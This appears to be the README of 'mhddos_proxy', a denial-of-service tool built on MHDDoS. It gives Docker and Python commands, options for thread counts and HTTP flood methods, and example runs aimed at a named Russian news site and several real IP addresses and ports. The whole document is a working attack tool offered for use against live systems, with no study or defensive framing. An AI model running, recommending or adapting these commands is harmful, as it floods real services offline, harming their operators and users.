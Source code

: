 Note that **python** is used instead of python3.

### Docker

- Windows: https://docs.docker.com/desktop/windows/install/
- Mac: https://docs.docker.com/desktop/mac/install/
- Ubuntu: https://docs.docker.com/engine/install/ubuntu/

      docker pull ghcr.io/porthole-ascend-cinnamon/mhddos_proxy:latest

## Running

### Docker

    docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy:latest COMMAND

### Python

    python3 runner.py COMMAND

## Usage

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-p PERIOD]
                     [--rpc RPC] 
                     [--debug]
                     [--http-methods METHOD [METHOD ...]]

    positional arguments:
      targets                List of targets, separated by space
    
    optional arguments:
      -h, --help             show this help message and exit
      -t, --threads 2000     Total number of threads to run (default is CPU * 1000)
      -c, --config URL       URL to a config file (list of targets in plain text)
      -p, --period 900       How often to update the proxies (default is 900)
      --debug                Enable debug output from MHDDoS
      --rpc 2000             How many requests to send on a single proxy connection (default is 2000)
      --http-methods GET     List of HTTP(s) attack methods to use.
                             (default is GET, POST, STRESS, BOT, PPS)
                             Refer to MHDDoS docs for available options
                             (https://github.com/MHProDev/MHDDoS)

# Examples

    python3 runner.py https://tvzvezda.ru 5.188.56.124:9000 tcp://194.54.14.131:4477 udp://217.175.155.100:53

    docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://tvzvezda.ru 5.188.56.124:9000 tcp://194.54.14.131:4477 udp://217.175.155.100:53
